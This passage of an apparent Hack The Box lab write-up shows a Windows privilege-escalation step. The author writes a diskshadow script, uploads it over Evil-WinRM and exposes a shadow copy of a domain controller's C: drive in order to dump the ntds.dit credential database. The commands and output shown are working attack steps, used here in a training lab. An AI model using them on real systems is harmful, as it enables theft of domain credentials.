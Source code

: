 We can exploit the **SeBackupPrivilege** ([_Windows Privilege Escalation: SeBackupPrivilege_](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)) and dump the `ntds.dit` database by:

* Writing a small script for the [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to expose the _c:_ drive
* Convert the script in a Windows-compatible format
* Upload the script on the target
* Move to a directory with write access
* Expose the shadow copy
* Download the `ntds.dit` database

```bash
# write a diskshadow script
$ cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:

# convert file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```

Next, within the WinRM session:

```bash
# upload script
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload diskshadow_script

Info: Uploading /home/kali/htb/ad_track/diskshadow_script to C:\Users\svc_backup\Documents\diskshadow_script

Data: 120 bytes of 120 bytes copied

Info: Upload successful!

# move within a writeable directory
*Evil-WinRM* PS C:\Windows\Temp> cd c:\windows\temp

# expose the shadow copy
*Evil-WinRM* PS C:\Windows\Temp> diskshadow /s diskshadow_script
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  3/21/2024 6:40:33 AM

-> set context persistent nowriters
-> add volume c: alias random
-> create
Alias random for shadow ID {c1b9f0fc-55fe-4df8-b9d6-cc09d5be207a} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {b33e3fe9-4ce7-481a-8ce7-968ce59f77ec} set as environment variable.

Querying all shadow copies with the shadow copy set ID {b33e3fe9-4ce7-481a-8ce7-968ce59f77ec}

        * Shadow copy ID = {c1b9f0fc-55fe-4df8-b9d6-cc09d5be207a}               %random%
                - Shadow copy set: {b33e3fe9-4ce7-481a-8ce7-968ce59f77ec}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 3/21/2024 6:40:34 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
```